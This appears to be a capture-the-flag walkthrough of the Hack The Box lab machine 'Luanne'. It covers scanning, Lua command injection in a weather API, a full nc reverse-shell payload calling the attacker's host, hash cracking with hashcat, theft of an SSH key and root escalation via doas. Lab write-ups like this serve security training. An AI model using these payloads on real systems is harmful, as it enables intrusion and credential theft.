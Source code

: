 # [Luanne](https://app.hackthebox.com/machines/luanne)

```bash
nmap -p- --min-rate 10000 10.10.10.218
```

![Alt text](img/image.png)


After detecting open ports, (22,80,9001), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,9001 10.10.10.218
```
![Alt text](img/image-1.png)


robots.txt

![Alt text](img/image-2.png)


We see '/weather' endpoint, it looks like API, let's brute-force for this endpoint.

Directory brute-force for port (80).
```bash
gobuster dir -u http://10.10.10.218/weather -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```


![Alt text](img/image-6.png)


We find API here.

![Alt text](img/image-3.png)

Let's look at what language is used by making error on API.

![Alt text](img/image-4.png)


From  here, we see that **Lua** language is used.
I looked that all malicious exploits related to **Lua** from [Gtfobins](https://gtfobins.github.io/gtfobins/lua/#sudo)

And I inject such malicious payload `')+os.execute('id')+--` to see Command Injection works or not.
```bash
http://10.10.10.218/weather/forecast?city=%27)+os.execute(%27id%27)+--
```

![Alt text](img/image-5.png)


Let's add reverse shell into injection part .So inject reverse shell as like this `') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1337 >/tmp/f') --`

```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1337 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' -s
```

![Alt text](img/image-7.png)

![Alt text](img/image-8.png)


Let's make interactive shell, but it doesn't work.

I find password in '.htpasswd' file.

![Alt text](img/image-9.png)


Let's crack this password via `hashcat` tool.

```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-10.png)


webapi_user: iamthebest


While , we use `netstat` tool, we see that port (3001) is used.

![Alt text](img/image-11.png)



As I grab user credentials from .htpasswd file, I enumerate that port 3001, maybe is serviced by this credentials, let's try to read something with using these creds.

```bash
curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
```

![Alt text](img/image-12.png)


Here's what we see some stuff about id_rsa which we can join by using this.
Let's read content of **id_rsa file**.

```bash
curl -s http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user:iamthebest
```
![Alt text](img/image-13.png)


Let's upload this our local machine, and try to login. We changed privilege and use to authenticate.
```bash
chmod 600 id_rsa
ssh -i id_rsa r.michaels@10.10.10.218
```

![Alt text](img/image-14.png)


user.txt

![Alt text](img/image-15.png)


I try to enumerate via `sudo -l` command but it doesn't work, as because it is BSD machine , I need to look for '**doas.conf**' file.

![Alt text](img/image-16.png)


Even though this file says, your user can be root privileged, there is no such thing.

![Alt text](img/image-17.png)



By the way , **YOU NEED TO KNOW BELOW EQUIVALENT.**

*sudo  ===   doas*


There is file called 'devel_backup-2020-09-16.tar.gz.enc
', let's try to unencrypt and unzip to see some info.

![Alt text](img/image-18.png)


I find interesting .gpg files which help me to unencrypt backup file.

![Alt text](img/image-19.png)


Let's use this.

```bash
netpgp --decrypt --output=/tmp/dr4ks.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc

tar zxvf dr4ks.tar.gz  #extract
```

![Alt text](img/image-20.png)

We find interesting '.**htpasswd**' file , again let's crack this via `hashcat` tool.

```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-21.png)


We find password like this 'littlebear'

Let's use this password to be root user via `doas` command.

root.txt

![Alt text](img/image-22.png)